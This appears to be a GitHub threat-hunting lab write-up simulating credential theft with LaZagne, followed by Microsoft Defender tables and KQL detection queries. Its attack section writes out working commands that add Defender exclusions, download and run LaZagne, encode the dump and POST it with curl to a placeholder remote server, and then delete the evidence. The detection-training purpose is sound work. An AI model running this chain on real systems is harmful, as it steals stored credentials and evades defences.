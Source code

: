 # Threat Event (Unauthorized Use of Lagzane for Encrypted Communications and Data Exfiltration)

**Detection of Lagzane Execution for Secure File Transfers**

## Steps the "Bad Actor" took Create Logs and IoCs:
1.  Created a Folder Exception in the Downloads Directory to Evade Detection

```PowerShell
Add-MpPreference -ExclusionPath "C:\Users\labuser\Downloads"
```

```PowerShell
Add-MpPreference -ExclusionPath "C:\Users\Public"
```

2. Downloaded LagZane from an External Source: https://github.com/AlessandroZ/LaZagne/releases/download/v2.4.6/LaZagne.exe

```PowerShell
certutil.exe -f -urlcache https://github.com/AlessandroZ/LaZagne/releases/download/v2.4.6/LaZagne.exe C:\Users\Public\lazagne.exe
```
3. Open a PowerShell console and Executed LaZagne to Extract Stored Credentials:

```PowerShell
C:\Users\labuser\Downloadslazagne.exe all > C:\Users\Public\creds_dump.txt
```

4. Exfiltrated Stolen Credentials to a Remote Server:

```PowerShell
certutil -encode C:\Users\Public\creds_dump.txt encoded.txt && curl -X POST -H "Content-Type: text/plain" --data-binary "@encoded.txt" https://<REMOTE Server>
```

5. Deleted Evidence to Cover Tracks

```PowerShell
Remove-Item " C:\Users\labuser\Downloads\LaZagne.exe" -Force
Remove-Item "C:\Users\Public\creds_dump.txt" -Force
Remove-Item "C:\Users\Public\encoded.txt" -Force
```

---

## Tables Used to Detect IoCs:
| **Parameter** | **Description**                                                                  |
| ------------- | -------------------------------------------------------------------------------- |
| **Name**      | DeviceFileEvents                                                                 |
| **Info**      | https://learn.microsoft.com/en-us/defender-xdr/advanced-hunting-deviceinfo-table |
| **Purpose**   | Detects **LaZagne** download, execution  of credential files.                    |

| **Parameter** | **Description**                                                                              |
| ------------- | -------------------------------------------------------------------------------------------- |
| **Name**      | DeviceProcessEvents                                                                          |
| **Info**      | https://learn.microsoft.com/en-us/defender-xdr/advanced-hunting-deviceinfo-table             |
| **Purpose**   | Detects execution of LaZagne, certutil.exe encoding, and curl.exe exfiltration attempts.<br> |

| **Parameter** | **Description**                                                                                                             |
| ------------- | --------------------------------------------------------------------------------------------------------------------------- |
| **Name**      | DeviceNetworkEvents                                                                                                         |
| **Info**      | https://learn.microsoft.com/en-us/defender-xdr/advanced-hunting-devicenetworkevents-table                                   |
| **Purpose**   | Detects external connections used for credential exfiltration via curl.exe to an attacker-controlled server (webhook.site). |


| **Parameter** | **Description**                                                                                                  |
| ------------- | ---------------------------------------------------------------------------------------------------------------- |
| **Name**      | DeviceEvents                                                                                                     |
| **Info**      | https://learn.microsoft.com/en-us/defender-xdr/advanced-hunting-deviceevents-table                               |
| **Purpose**   | Detects file deletion (Remove-Item), AV exclusions (Add-MpPreference), and PowerShell commands used for stealth. |


---

## Related Queries:

```kql

// Detects LaZagne executable file being downloaded
DeviceFileEvents 
| where FileName has "lazagne.exe"

// Detects attempts to exclude directories from Windows Defender scans
DeviceEvents
| where AdditionalFields contains "ExclusionPath"

// Detects execution of LaZagne
DeviceProcessEvents 
| where ProcessCommandLine contains "lazagne.exe" 
| project Timestamp, DeviceName, AccountName, ActionType, FileName, FolderPath, SHA256, ProcessCommandLine

// Detects execution of certutil.exe or curl.exe for data exfiltration
DeviceProcessEvents 
| where ProcessCommandLine has_any ("certutil","certutil.exe", "curl.exe")

// Detects network exfiltration activity using curl.exe or certutil.exe
DeviceNetworkEvents
| where InitiatingProcessFileName in ("curl.exe", "certutil.exe")
| project Timestamp, DeviceName, InitiatingProcessAccountName, InitiatingProcessFileName, RemoteIP, RemotePort, RemoteUrl

// Detects evidence deletion (PowerShell Remove-Item commands)
DeviceEvents
| where ActionType == "PowerShellCommand"
| project Timestamp, InitiatingProcessAccountName, DeviceName, AdditionalFields

```

---

## Created By:
- **Author Name:** Alejandro Perez Hernandez
- **Author Contact:** [LinkedIn](https://www.linkedin.com/in/alejandro-perez-hernandez/)
- **Date:** February 21, 2025

---

## Additional Notes:

- Consider implementing endpoint monitoring policies to detect credential dumping tools.
- Block suspicious PowerShell and certutil.exe executions using Group Policy or Defender ATP.

---

## Revision History:
| **Version** | **Changes**   | **Date**            | **Modified By**             |
| ----------- | ------------- | ------------------- | --------------------------- |
| 1.0         | Initial draft | `February 19, 2025` | `Alejandro Perez Hernandez` |






